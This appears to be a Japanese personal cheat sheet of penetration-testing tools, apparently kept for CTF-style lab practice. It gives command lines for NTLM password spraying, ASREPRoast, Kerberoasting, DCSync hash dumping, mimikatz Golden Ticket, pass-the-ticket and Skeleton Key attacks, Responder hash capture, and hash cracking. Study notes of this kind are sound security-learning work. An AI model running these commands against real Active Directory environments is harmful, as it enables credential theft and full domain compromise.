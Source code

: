 ## Tools
- [CyberChef](https://github.com/gchq/CyberChef)  
  「Magic」可読可能な文字列に変換してくれる
- [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) (kali〇, Perl)  
  「`enum4linux` IPアドレス」
- [Evil-WinRM](https://github.com/Hackplayers/evil-winrm) (kali〇, Ruby)  
  「`evil-winrm` -i IPアドレス -u ユーザ名 -H NTハッシュ」WinRM経由でログインできる
- [exifool](https://github.com/exiftool/exiftool) (kali×, Perl)  
  「`exiftool` ファイル名 -Exifタグ名」任意のExif情報をフィルタ  
  位置情報をGoogleMapで検索するときは「-n」オプションの出力を検索にかけると良い
- ftp (kali〇, ELF)  
  「`ftp` IPアドレス -a」Anonymousログオン
- [GoBuster](https://github.com/OJ/gobuster) (kali×, Go)  
  「`gobuster` -u URL -w wordlist名 dir」URL配下のコンテンツをWordlistを用いて探索
- gpg (kali〇, ELF)    
  「`gpg` --import "GPG鍵(拡張子.key)"」→「`gpg` -d "メッセージファイル(拡張子.gpg)"」GPGファイルを復号
- [hashcat](https://github.com/hashcat/hashcat) (kali〇, C)  
  「`hashcat` -a 0 -m 値 Hashファイル名 Wordlist名」  
  「-a 0 」は辞書攻撃、「-m 値」はハッシュ形式（-m 13100 は「$krb5tgs」、-m 18200 は「$krb5asrep」、-m 5600は「NTLMv2-SSP」）
- [hashID](https://github.com/psypanda/hashID) (kali〇, python)  
  「`hashid` -j Hashファイル名」（-jで、JohnTheRipperのフォーマット・-mでHashCatのフォーマットも確認できる）
- [hydra](https://github.com/vanhauser-thc/thc-hydra) (kali〇,C)  
  「`hydra` -L ユーザリスト名 -p パスワード Domainメイン `/:A=NTLM:F=401`」でIISサーバのNTLN認証をパスワードスプレー
- [impacket](https://github.com/fortra/impacket) (Kali〇, python)  
  impacket-〇〇以外に、`python3 /usr/share/doc/python3-impacket/examples/〇〇.py`でも実行できる
  - GetNPUsers  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP ドメイン名/ユーザ名 -outputfile 出力ファイル名」  
      ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
      取得したTGTは「hashcat -a 0 -m 18200 Passwordリスト名 TGTファイル名 」  
      または「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる  
    - 「`impacket-GetNPUsers` -no-pass -dc-ip ドメコンIP -userfile ユーザリスト ドメイン名/ -outputfile 出力ファイル名」  
      では「-userfile」内の各ユーザに対してASREPRoastを実行
  - GetUserSPNs  
    「`impacket-GetUserSPNs` -dc-ip ドメコンIP ドメイン名/ユーザ名:パスワード -outputfile 出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行  
    TGSは「hashcat -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - secretsdump  
    「`impacket-secretsdump` -just-dc ドメイン名/ユーザ名:パスワード@IPアドレス -outputfile 出力ファイル名」  
    DCSync権限を持つドメインユーザを使用して、各ドメインユーザのNTハッシュやKerberosキーをダンプできる
- [John the Ripper](https://github.com/openwall/john) (kali〇, C)  
  - 「`john` --wordlist=/usr/share/wordlists/rockyou.txt Hashファイル名 --format=Hash方式」  
    「`john` Hashファイル名 --show」クラック済み結果を表示（もしくは`/home/kali/.john/.john.pot`に解析結果がある）
  - 「`john` --list=formats」全フォーマットを表示  
    「--format=Raw-MD5」MD5ハッシュ, 「--format=nt」NTハッシュ
  - johnで解析するためのパスワード抽出
    - 「`zip2john` zipファイル名 > 出力ファイル名」johnで解析できるようにZIPパスワードを抽出  
    - 「`rar2john` rarファイル名 > 出力ファイル名」johnで解析できるようにRARパスワードを抽出  
    - 「`ssh2john` SSH秘密鍵ファイル名 > 出力ファイル名」johnで解析できるようにSSH秘密鍵を抽出
    - 上記３つを実行後、「`john` --wordlist=/usr/share/wordlists/rockyou.txt 出力ファイル名」でクラック可能
  - 「john --single Hashファイル --format=Hash方式」SingleCrackモード（あんま使わん）  
    Hashファイルは「文字列:ハッシュ」形式。文字列を変換しながらHashクラックを行う
  - 「sudo `unshadow` /etc/passwd /etc/shadow」  
    Johnで /etc/shadow をクラックするためのフォーマット作成
- [Kerbrute](https://github.com/ropnop/kerbrute) (kali×, Go)
  - install  
    GitHub上のReleaseからLinuxバイナリをインストール
  - 「`./kerbrute` userenum -d ドメイン名 --dc ドメコンIP Wordlists名 -o 出力ファイル名」Domainユーザの列挙
- [mimikatz](https://github.com/gentilkiwi/mimikatz) (kali〇, C)  
  「privilege::debug」→「[output '20' OK]」でAdministrator権限であるか確認
  - Golden/Silver Ticket Attacks  
    「lsadump::lsa /inject /name:krbtgt」  
    krbtgtアカウントのNTハッシュやSIDをダンプ（SilverTicketの場合は/nameで指定のユーザを指定）  
    「Kerberos::golden /user:Administrator /domain:ドメイン名 /sid:krbtgtのSID /krbtgt:krbtgtのNTハッシュ /id:500」  
    GoldenTicketを作成（SilverTicketは別の方法）  
    「misc::cmd」で先程作成したTicketに昇格する
  - Pass the Ticket  
    「sekurlsa::tickets /export」.kiribiチケットが現在地にエクスポート  
    「kerberos::ptt .kiribiチケット名」→「klist」でキャッシュされたチケットを表示で攻撃の成功を確認
  - Skeleton Key  
    「misc::skeleton」ドメコンのメモリ上にマスタパスワードを挿入し、AD認証をバイパスする
- [pdfinfo](https://github.com/howtomakeaturn/pdfinfo) (kali×, PHP)  
  「`pdfinfo` PDFファイル名」PDFメタデータの確認
- [PowerPXE](https://github.com/wavestone-cdt/powerpxe) (kal×, Powershell)  
  Windows上のPowershellで「Import-Module .\PowerPXE.ps1」でスクリプトをインポートして  
  MDTサーバからTFTP経由でBCDファイルを取得・「Get-WimFile -bcdFile "BCDファイル名"」でPXEブートイメージの場所を取得  
  「Get-FindCredentials -WimFile PXEブートイメージ名」でクレデンシャルを取得  
  ※細部はBreaching Active Directoryを参照
- [Responder](https://github.com/lgandx/Responder) (kali〇, python)  
  「sudo `responder` -I インタフェース名」でNTLM通信を中継・NTLMハッシュの取得
- [Rubeus](https://github.com/GhostPack/Rubeus) (kali×, C#)  
  攻撃対象のWindowsマシンで実行する、Post-Exploitationのイメージ  
  - 「`Rubeus.exe` harvest /interval:秒数」指定した秒数間、TGTを収集する  
  - 「`Rubeus.exe` kerberoast /nowrap /outfile:出力ファイル名」  
    Kerberoasting（取得したユーザのSPNに対応したアカウントのTGSを取得できる）を実行（nowrapは改行なしで結果出力）  
    TGSは「hashcat -a 0 -m 13100 TGSファイル名 Passwordリスト」でクラックできる（JohnではTGSをサポートしてない）
  - 「`Rubeus.exe` asreproast /format:hashcat /outfile:出力ファイル名」  
    ASREPRoast（Kerberos事前認証を必要としていないユーザのTGTを取得できる）を実行  
    TGTは「hashcat -a 0 -m 18200 TGTファイル名 Passwordリスト」でクラックできる  
    （Johnでは「john --wordlist=Passwordリスト名 TGTファイル名」でクラックできる）
- scp (kali〇, ELF)  
  「`scp` SSHユーザ名@IPアドレス:/リモートパス ローカルパス」リモート先からダウンロード
- smbclient (kali〇, ELF)  
  「`smbcleint` -L IPアドレス or FQDN -U ユーザ名%パスワード」共有フォルダの列挙  
  「`smbclient` //IPアドレス/共有名 -U ユーザ名%パスワード」共有フォルダにアクセス
- [SMBMap](https://github.com/ShawnDEvans/smbmap) (kali〇, python)  
  「`smbmap` -H IPアドレス -u ユーザ名 -p パスワード」共有フォルダの列挙（smbclientと比べフォルダ権限まで確認できる）
- SSH  
  SSH秘密鍵の権限は600か700でないとSSH鍵認証できない
  - sshkeygen
- [tcpdump](https://github.com/the-tcpdump-group/tcpdump) (kali〇, C)  
  「sudo `tcpdump` -SX -i インタフェース名 tcp port ポート番号」でTCP通信をHexとASCII形式で見れる

## Linux
### Command
- 「`sed` -i '1s/^/文字列' ファイル名」 ファイルの１行目（`1s`）先頭に文字列を追加（改行なし）
### Preference
- 「sudo `sed` -i '$a10.10.253.185 spookysec.local' /etc/hosts」を実行しHOSTSファイルを編集
- 「/etc/resolve.conf」はNetworkManagerが管理しているため、Viなどで編集しても元に戻る  
  Nameサーバを指定したい場合は、GUIのNetworkManagerから設定する
- `$format$rounds$salt$hash` /etc/shadowのフォーマット、`$format`でハッシュ種別が分かる

## BookMark
- [CrackStation](https://crackstation.net/)  
  hashクラック
- [hashes.com](https://hashes.com/en/decrypt/hash)  
  hashクラック
- [hash_identifier](https://hashes.com/en/tools/hash_identifier)  
  hash識別

## Link
